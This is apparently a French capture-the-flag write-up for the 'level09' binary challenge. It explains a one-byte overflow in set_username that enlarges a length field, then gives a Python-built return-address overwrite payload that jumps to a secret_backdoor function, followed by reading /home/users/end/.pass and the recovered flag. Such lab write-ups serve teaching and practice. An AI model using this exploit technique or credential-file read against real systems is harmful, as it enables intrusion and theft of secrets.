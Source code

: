1. Buffer overflow sur la fct set_username de 1 byte. L'espace memoire se trouvant a user+40 est la length du message. On peut donc modifier cette valeur afin de creer un second buffer overflow sur message.

```
(gdb) p secret_backdoor
$1 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
```

2. L'offset est de 200 apres l'username.

```
(python -c '''
import struct

addrs = struct.pack("Q", 0x55555555488c)
junk = "\x90" * 200

print "A" * 40 + "\xee" + "\n" + junk + addrs
'''; cat;) | ./level09
```

```
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

> Flag: j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE

